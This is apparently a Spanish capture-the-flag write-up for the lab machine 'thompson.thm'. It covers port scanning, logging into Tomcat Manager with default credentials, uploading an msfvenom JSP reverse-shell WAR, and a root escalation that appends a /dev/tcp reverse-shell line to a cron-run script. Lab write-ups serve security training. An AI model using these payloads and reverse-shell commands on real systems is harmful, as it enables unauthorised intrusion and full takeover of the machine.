

## 1. Introducción

Este informe documenta el proceso de análisis de seguridad realizado sobre la máquina objetivo "thompson.thm" (IP: 10.10.211.129). El objetivo es evaluar posibles vulnerabilidades explotables en sus servicios, identificar configuraciones erróneas y, en caso de ser posible, escalar privilegios dentro del sistema.

## 2. Escaneo Inicial

### 2.1 Herramientas Utilizadas

- **Nmap**: Se ejecutó un escaneo de puertos y detección de versiones con los flags `-A -sT`.
- **Gobuster**: Se utilizó para enumerar directorios y archivos accesibles en el servidor web.

### 2.2 Comandos Ejecutados y Resultados

#### 2.2.1 Escaneo con Nmap

```bash
nmap -A -sT thompson.thm -oN resultado.txt
```

**Resultados Relevantes:**

- **22/tcp (SSH)**: OpenSSH 7.2p2 (Ubuntu Linux; protocolo 2.0)
- **8009/tcp (AJP13)**: Apache JServ Protocol v1.3
- **8080/tcp (HTTP)**: Apache Tomcat 8.5.5

#### 2.2.2 Enumeración con Gobuster

```bash
gobuster dir -u http://thompson.thm:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,.js -t 50
```

**Resultados Relevantes:**

- `/manager` (requiere autenticación)
- `/host-manager` (requiere autenticación)
- `/docs` (posiblemente documentación accesible)
- `/examples` (puede contener ejemplos vulnerables de Tomcat)
- `/reverse.php` y `/shell/` (indican presencia de scripts ejecutables)

## 3. Enumeración

- **SSH (22/tcp)**: Se ejecutará un análisis de credenciales por fuerza bruta y verificación de autenticación basada en clave pública.
- **Apache JServ Protocol (8009/tcp)**: Se investigará la posibilidad de explotación mediante el abuso del protocolo AJP.
- **Apache Tomcat (8080/tcp)**: Se verificarán credenciales por defecto en el panel de administración y posibles vulnerabilidades conocidas de la versión 8.5.5.
- **Gobuster Discovery**:
    - Se encontraron directorios sensibles: `/manager` y `/host-manager`, ambos requieren autenticación.
    - Se observó que estos servicios pueden estar utilizando credenciales por defecto.

## 4. Explotación

Se identificaron posibles credenciales por defecto en el archivo de configuración de Tomcat (`tomcat-users.xml`).

- Usuario: `tomcat`
- Contraseña: `s3cret`
- Permiso: `manager-gui`



### 4.1 Carga de WebShell

- Se utilizó `msfvenom` para generar un archivo `.war` con una reverse shell JSP:
    
    ```bash
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=TU_IP LPORT=4444 -f war > shell.war
    ```
    
- Se inició un listener en la máquina atacante:
    
    ```bash
    nc -lvnp 4444
    ```
    
- Se subió el archivo `shell.war` a través de Tomcat Manager.
- Se accedió a `http://thompson.thm:8080/shell/` para ejecutar la shell y obtener acceso remoto.

## 5. Escalada de Privilegios

Tras obtener acceso inicial, se identificó al usuario `jack` y se recuperó la primera bandera ubicada en `/home/jack/user.txt`.

### 5.1 Identificación de un archivo con permisos de root

Se encontró un archivo sospechoso llamado `id.sh` en el sistema. Su contenido era el siguiente:

```bash
cat id.sh 
#!/bin/bash
echo 'bash -i >& /dev/tcp/10.6.17.22/4445 0>&1' >> id.sh
```

Este archivo tenía permisos de ejecución como root y se ejecutaba automáticamente mediante un **cron job**, lo que permitía escalar privilegios mediante una reverse shell con privilegios elevados.

### 5.2 Ejecución de la reverse shell con privilegios de root

- Se configuró un listener adicional:
    
    ```bash
    nc -lvnp 4445
    ```
    
- Se esperó a que el **cron job** ejecutara `id.sh`, estableciendo así la conexión reversa como root.
- Una vez con privilegios de root, se recuperó la segunda bandera ubicada en `/root/root.txt`.

## 6. Hallazgos Clave

- **Acceso a Tomcat Manager y Host-Manager**:
    - Se encontraron directorios protegidos con credenciales por defecto.
    - Se logró la carga de una webshell para obtener acceso remoto al sistema.
- **Escalada de Privilegios Exitosa**:
    - Se explotó un archivo `id.sh` ejecutado automáticamente por `cron` con permisos de root para obtener acceso total al sistema.

## 8. Conclusión
Se ha logrado comprometer la máquina mediante la explotación de credenciales por defecto en Apache Tomcat, la carga de una webshell JSP y la escalada de privilegios a través de un archivo mal configurado con permisos de root. La explotación exitosa permitió obtener acceso total al sistema y recuperar ambas banderas (`user.txt` y `root.txt`).